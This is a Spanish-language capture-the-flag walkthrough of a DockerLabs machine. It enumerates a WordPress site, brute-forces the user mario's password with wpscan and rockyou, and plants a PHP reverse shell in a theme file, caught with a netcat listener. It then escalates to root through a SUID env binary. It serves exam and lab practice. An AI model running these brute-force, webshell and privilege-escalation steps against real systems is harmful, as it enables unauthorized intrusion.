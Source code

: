 [[Writeups]]
#Writeups #Easy #DockerLabs

![dockerLabs.png](assets/dockerLabs.png)

Empezamos con un escaneo general de todos los puertos:
```bash
❯ sudo nmap -sS -Pn -p- --min-rate 5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-21 21:56 CEST
Nmap scan report for 172.17.0.2
Host is up (0.0000060s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.09 seconds

```

Encontramos solo el puerto 80 abierto con un servicio http, vamos a hacer un escaneo mas profundo a ver que encontramos:


``` bash
❯ sudo nmap -sCV -p80 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-21 21:58 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000032s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.58 seconds
```

Detectamos que es un Apache httpd 2.4.57.

Hacemos una búsqueda de directorios con gobuster y encontramos un directorio wordpress:

![cmsGobs.png](assets/cmsGobs.png)

dentro del directorio worpress también encontramos esto 
``` bash
❯ gobuster dir -u 172.17.0.2/wordpress -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/wordpress
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/wp-content           (Status: 301) [Size: 323] [--> http://172.17.0.2/wordpress/wp-content/]
/wp-includes          (Status: 301) [Size: 324] [--> http://172.17.0.2/wordpress/wp-includes/]
/wp-admin             (Status: 301) [Size: 321] [--> http://172.17.0.2/wordpress/wp-admin/]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================

```

encontramos esta web:

![wordpresscmsWalk.png](assets/wordpresscmsWalk.png)

dentro del comentario de Hola mundo vemos que lo ha subido el ususario mario por lo que podríamos usarlo para futuros ataques de fuerza bruta, por lo tanto entramos al panel de admin y ponemos el ususario mario y una contraseña aleatoria para ver si nos indica que el ususario es correcto:

![loginWalkingMario.png](assets/loginWalkingMario.png)

y efectivamente, wordpress nos confirma que el usuario mario existe por el error que nos lanza, pero no sabemos la contraseña.

Vamos a usar una herramienta que también nos servirá para los que nos estamos preparando la ejpt V2, wpscan, esta herramienta te permite enumerar ususarios y realizar ataques de fuerza bruta específicamente para wordpress:

Para enumerar usuarios escribimos lo siguiente:

```bash
wpscan --url http://172.17.0.2/wordpress/ --enumerate u

# Y confirmamos por segunda vez el ususario mario:

[i] User(s) Identified:

[+] mario
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://172.17.0.2/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Tue May 21 22:50:53 2024
[+] Requests Done: 13
[+] Cached Requests: 46
[+] Data Sent: 3.584 KB
[+] Data Received: 11.221 KB
[+] Memory used: 266.195 MB
[+] Elapsed time: 00:00:03

```

Por lo tanto vamos a realizar un ataque de fuerza bruta con la herramienta wpscan usando el rockyou.

```bash
❯ wpscan --url http://172.17.0.2/wordpress/ -U mario -P /usr/share/wordlists/rockyou.txt
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` |  _ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://172.17.0.2/wordpress/ [172.17.0.2]

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - mario / love                                                                                                                                                                      
Trying mario / badboy Time: 00:00:01 <                                                                                                                > (390 / 14344782)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: mario, Password: love

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Tue May 21 23:02:28 2024
[+] Requests Done: 562
[+] Cached Requests: 5
[+] Data Sent: 256.485 KB
[+] Data Received: 462.469 KB
[+] Memory used: 273.539 MB
[+] Elapsed time: 00:00:08

```

Y en unos segundos obtenemos un caso positivo:
User: **mario** 
Password: **love**

![loginmariolove.png](assets/loginmariolove.png)

nos logeamos y efectiviwonder, el usuario y la pass son correctas:

![entradamariolove.png](assets/entradamariolove.png)

Una vez aquí, una forma de obtener una reverse shell es cambiando el código de los archivos de temas o plugins que haya descargado, por lo que vamos a apariencia y vemos que tiene el tema de Twenty Twenty-Four

Por lo que vamos al Theme Code editor para editar manualmente archivos especificos de este tema:

![twentyrev.png](assets/twentyrev.png)

accedemos al archivo index.php clickando y vemos el código que tiene, así que vamos a meter un código php de revshells para ejecutar la shell desde aquí:

![revshellcms.png](assets/revshellcms.png)

insertamos la revshell de pentest monkey en el archivo index.php y le damos a upload file.

Ahora inicamos net cat desde nuestra terminal y nos quedamos a la escucha:

```bash
❯ nc -lvnp 1234
listening on [any] 1234 ...
```

para acceder al archivo modificado tendremos que entrar en el directorio:

/wp-content/themes/twentytwentytwo/index.php

Ya que dentro de wp-content/themes se guardan todos los archivos que podemos modificar de los temas instalados en nuestro caso la url entera sera:

http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/index.php

y obtenemos acceso:

```bash
❯ nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.1.217] from (UNKNOWN) [172.17.0.2] 39232
Linux 5ce6219148a7 6.5.0-13parrot1-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.5.13-1parrot1 (2023-12-19) x86_64 GNU/Linux
 21:30:57 up  2:04,  0 user,  load average: 0.88, 1.12, 1.18
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (262): Inappropriate ioctl for device
bash: no job control in this shell
www-data@5ce6219148a7:/$ 
```

enumeramos permisos sudo y SUID y vemos que tenemos un SUID de env:

```bash
www-data@5ce6219148a7:/$ whoami
whoami
www-data
www-data@5ce6219148a7:/$ sudo -l
sudo -l
bash: sudo: command not found
www-data@5ce6219148a7:/$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/su
/usr/bin/umount
/usr/bin/env
```

vamos a gtfobins y buscamos env, para suid podemos elevar permisos con este comando: 

![gtfowalking.png](assets/gtfowalking.png)

```bash
./env /bin/sh -p
```

por lo que accedemos a /usr/bin y ejecutamos el comando:

![rootcmswalking.png](assets/rootcmswalking.png)

Y obtenemos root. 
Con esto ya hemos vulnerado la maquina.
